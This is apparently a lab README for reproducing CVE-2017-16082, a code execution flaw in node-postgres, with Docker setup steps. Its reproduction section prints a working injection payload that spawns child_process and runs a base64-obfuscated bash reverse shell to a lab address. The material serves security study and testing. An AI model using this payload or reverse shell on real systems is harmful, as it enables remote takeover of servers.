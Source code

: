 # Node-Postgres Remote Code Execution (CVE-2017-16082)

[中文版本(Chinese version)](README.zh-cn.md)

Node-postgres is a Node.js client for PostgreSQL. It is a popular database connector for Node.js applications.

When node-postgres processes a PostgreSQL response packet of type `Row Description`, it concatenates the field names into the code. Due to improper escaping, a specially crafted field name can escape the code's single quote restriction, leading to code execution vulnerability.

Reference links:

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## Environment Setup

Run the following commands to build and start a vulnerable application based on node-postgres 7.1.0:

```
docker compose build
docker compose up -d
```

After the server is successfully started, visit `http://your-ip:3000/?id=1` to view information for user with id 1. Using sqlmap, you can discover that there is an injection point here, and the database is PostgreSQL:

![](img/1.png)

## Vulnerability Reproduce

We can then assume that the node-postgres code execution vulnerability exists here. Write the command you want to execute `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`, then split it appropriately (each segment should not exceed 64 characters) and replace it in the following payload:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

Send the above payload after encoding:

![](img/2.png)

Successfully execute commands, such as reverse shell:

![](img/3.png)

Because there are many difficulties in the reproduction process, if you encounter errors during payload generation and testing, please read [this article](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html) to understand the underlying principles and find the source of the problem.
